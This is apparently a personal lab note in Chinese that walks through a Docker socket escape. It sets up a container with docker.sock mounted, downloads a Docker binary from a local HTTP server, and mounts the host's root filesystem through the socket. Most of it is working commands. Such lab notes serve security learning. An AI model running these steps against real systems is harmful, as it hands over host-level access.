





配置不当--Socket逃逸

2023年12月2日

14:36

启动靶场：docker run -itd --name with_docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu

进入环境：docker exec -it with_docker_sock /bin/bash

检测文件：ls -lah /var/run/docker.sock

全文搜索：find / -type s -name docker.sock 2\>/dev/null

/var/run/docker.sock 和 /run/docker.sock 都是同一个 Unix 套接字文件的不同路径。这是因为 /var/run 和 /run 实际上是 Linux 系统中的符号链接，它们指向同一个目录。

找到之后，上传docker安装包到目标机器

python3 -m http.server 80 本地起一个环境\[把docker安装包放在启动目录下\]

下载

wget <http://192.168.86.218/docker-18.09.9.tgz>

解压

tar -xzvf docker-18.09.9.tgz

cd docker

chmod +x docker

./docker -H unix:///run/docker.sock images

这个时候，启动一个本地docker

./docker -H unix:///var/run/docker.sock run -d -v /:/host alpine tail -f /dev/null

 

./docker -H unix:///var/run/docker.sock exec IMAGE_ID 命令

./docker -Hunix:///var/run/docker.sock exec fe0f9c6f412c ls /host

 

逃逸成功

接下来看逃逸成功之后的操作---docker
